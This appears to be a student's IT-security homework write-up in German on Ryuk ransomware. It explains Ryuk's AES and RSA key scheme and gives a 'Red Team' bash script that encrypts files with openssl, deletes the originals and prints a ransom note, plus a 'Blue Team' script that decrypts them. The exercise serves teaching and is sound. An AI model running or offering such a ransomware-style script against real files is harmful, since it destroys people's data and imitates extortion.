




Name: Lisa Hintermaier
Klasse: 5AHITS
Fach: ITSE-Übungen
Datum: 01.10.2026

# Ryuk Ransomware 

## Übung 1: Theorie Fragen
Kurze Erklärung: 
AES-256-CBC Schnell bei großen Datenmengen, RSA wäre zu langsam.
Eigener Key pro Datei zur Isolierung: Fällt ein Key kompromittiert, sind die anderen sicher. Mit IV=0 verhindert es Muster bei Key-Wiederverwendung.
AES-Key RSA-verschlüsselt. Es verhindert also, dass das Opfer die Keys einfach ausliest – nur privater Key des Opfers kann sie entschlüsseln.
Ist an Datei angehängt: Keine separaten Files. RSA-2048 = immer 256 Bytes → letzte 256 Bytes sind der verschlüsselte AES-Key.
Victim Private Key AES-verschlüsselt. Muss am System bleiben, aber unverschlüsselt wäre er wertlos für Konkurrenten ohne AES-Key.
Globaler RSA Masterkey für die Zentrale Kontrolle: Eine Geheimnis für alle Opfer. Mit globalem privatem Key kann Angreifer alle aes_victim_keys wiederherstellen.
 

## Übung 1.1 Funktionsweise von Ryuk
-> so wie im Unterricht besprochen 

## Übung 1.2 Ryuk - Red Team
Red Team = Angreifer        
Erstelle ein bash Script das mehrere Dateinamen als Argumente akzeptiert und diese Dateien nach der von Ryuk angewendeten Strategie verschlüsselt. Verwende openssl.        
Z.B. alle Dateien im Verzeichnis verschlüsseln:         
$ ryuk_ransom *        
Nach dem Verschlüsseln aller Daten soll eine furchterregende "Ransom Note" ausgegeben    

### Skript: 

```sh 
#!/bin/bash
 
# Prüfe ob Argumente vorhanden sind
if [ $# -eq 0 ]; then
   echo "Verwendung: $0 <datei1> <datei2> ..."
   exit 1
fi
 
ENCRYPTION_KEY="MySecretKey12345"
encrypted_count=0
 
# Verschlüssele jede Datei
for file in "$@"; do
   if [ -f "$file" ]; then
       openssl enc -aes-256-cbc -salt -in "$file" -out "$file.encrypted" -k "$ENCRYPTION_KEY" 2>/dev/null
       rm "$file"
       ((encrypted_count++))
   fi
done
 
# Ransom Note
echo ""
echo "============================================"
echo "IHRE DATEIEN WURDEN VERSCHLUESSELT!"
echo "============================================"
echo "Kontaktieren Sie: ransom@darknet.onion"
echo ""
echo "$encrypted_count Datei(en) verschluesselt."
echo "============================================"
```

### Datei vor dem verschlüsseln. Datei: datei1.txt


### Datei nach dem verschlüsselm


Es wird eine neue Datei erstellt, wo der verschlüsselte Inhalt gespeichert ist. Datei: datei1.txt.encrypted

## Übung 1.3 (Ryuk - Blue Team)
``sh
#!/bin/bash
 
if [ $# -eq 0 ]; then

   echo "Verwendung: $0 <datei1.encrypted> <datei2.encrypted> ..."

   exit 1

fi
 
ENCRYPTION_KEY="MySecretKey12345"

decrypted_count=0
 
for encrypted_file in "$@"; do

   if [ -f "$encrypted_file" ]; then

       original_file="${encrypted_file%.encrypted}"

       openssl enc -aes-256-cbc -d -in "$encrypted_file" -out "$original_file" \

                   -k "$ENCRYPTION_KEY" 2>/dev/null

       ((decrypted_count++))

       echo "✓ $original_file wiederhergestellt"

   fi

done
 
echo ""

echo "============================================"

echo "✓ $decrypted_count Datei(en) entschlüsselt!"

echo "============================================"
 `` 

Wenn man nur die Datei ausführt und das Passwort MySecrteKey12345 eingibt dann bekommt man die entschlüsselte Datei.


Nun sieht man wieder die Nachricht die man am Anfang verschlüsselt hat. 


## Anmerkung: in den ersten 2 Stunden habe ich gefehlt, da ich krank war

